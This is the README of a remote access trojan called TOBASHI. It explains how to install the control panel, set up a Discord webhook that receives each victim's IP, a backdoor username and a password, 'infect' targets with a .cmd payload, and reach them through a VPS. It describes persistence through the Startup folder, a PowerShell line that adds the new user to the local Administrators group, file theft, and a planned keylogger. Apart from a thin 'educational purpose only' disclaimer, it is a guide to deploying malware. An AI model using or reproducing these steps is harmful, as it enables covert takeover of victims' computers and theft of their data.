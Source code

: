 # TOBASHI 戸橋
TOBASHI is a RAT (Remove Access Tool) including payloads and control panel. [IN DEVELOPMENT]

## Information

This tool is for educational purpose only, the usage of TOBASHI without mutual consent is illegal. Developers assume no liability and are not responsible for any misuse or damage cause by this program.

## Features

- Remote multiple Connections
- Upload / Download files
- Local / VPS extension
- Persistence


[In development]

- Obfuscator
- Keylogger

## Configuration file

*Every target has a configuration file in .txt that will be send on your personnal discord server.* This configuration file is changing depending if you are remoting localy or outside your local network. The local file

### Example of a local configuration file :

*Here is the john local configuration file :*

```shell
Guest         # Name of the new user on the target machine (Guest by default)
192.168.0.5   # Local IP adress of the target
oUghflmDbp    # Random password generated for the connection
local         # Type of connection
```

### Example of a remote configuration file :

*Here is the doe remote configuration file :*
```shell
Guest           # Name of the new user on the target machine (Guest by default)
192.168.0.5     # Local IP adress of the target machine
oUpECuWPwL      # Random password generated for the connection
C:\Users\doe\AppData\Local\Temp   # Temp path
C:\Users\doe\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\[startup].cmd    # Startup path
X.X.X.X        # VPS IP adress
2583           # Remote Port (By default)
remote         # Type of connection
```

# Installation

In order to install *TOBASHI*, please follow the steps : 

• **Git clone**

```shell
git clone https://github.com/flamendO/TOBASHI-.git
cd TOBASHI-/
python requirements.py
```

• **Start TOBASHI**

```shell
./tobashi.sh
```

# Discord configuration

In order to receive configuration files, you need to create a **discord** server. After that, create a webhook called **tobashiconsole** (the name of the salon can be different).

- To create a new discord webhook, go to your discord server settings, into *Integrations* and *Webhooks*, Then *New Webhook*.
- When you have your discord *webhook*, copy the link of your webhook and paste it in the **discord file** :

```shell
TOBASHI-/discord_config/discord
```
• When it's done, start the program, and select **discord** option, then click **Enter** to validate your discord webhook link.

# Infect in a LOCAL network

After the discord configuration set, infect your **target** with */src/initial_local.cmd*. When it's done, you should receive on your discord server a *user local configuration*, download the file and put it in the folder */users/local/*. You can now go to the program menu, select first the option **user**, choose **local** and the name of the user. **NOTE :** to choose, donc take the *.txt* at the end. For exemple, if you have a user configuration file called *john.txt*, you'll type in **user** option : *john*.

When it's done, you can go to the **console** option !


# Infect in a NON-LOCAL network

## VPS Configuration

In order to remote outside your *network*, you have to work with a **VPS**. To configure **TOBASHI** with your **VPS**, go to the start menu, and select the option **vps**.

- Follow step inside the program : write your *VPS IP*, *VPS username*, and *VPS password*.
- The program will automaticaly download features on your *VPS* server, and set the payload updated.

When it's done, you are ready to infect your target.

## Infect machine

Now, you are ready to infect, these are the same steps as for a local network. When the target opens the file, you'll receive a *user remote configuration*, that you put in the folder *users/vps/*. Then you can go to the program menu, select first the option **user**, choose **vps** and the name of the user. **NOTE :** to choose, donc take the *.txt* at the end. For exemple, if you have a user configuration file called *john.txt*, you'll type in **user** option : *john*.

When it's done, you can go to the **console** option !


# Download / Upload Option

In order to **download** or **upload** files from/to the target machine, click to the option **download** or **upload**. Follow steps. Be aware of the path of directories, use **/** and **NOT \** (question of encoding).

- **Download files** will automatically go to the folder *download_files/**target_name**/* .

# Reset settings

You might want to change your **vps or discord** settings. To do so, select the option **reset**. Then choose if you want to reset your *vps, discord* or both settings. 

# Errors that might appear

The main error that you can actually have is due your pc language. Actually in a step in the files **stage2.cmd , stage2_v.cmd**, there is this line :

```shell
Add-LocalGroupMember -Group "Administrateurs" -Member $JhfuihdfOm
```

If you are english, change **"Administrateurs"** by **"Administrators"**.





FOR VPS, INSTALL : 

sshpass
git
apache2
openssh-server

Careful : 

vps_settings folder and vps_conf have to be created before (void by default)

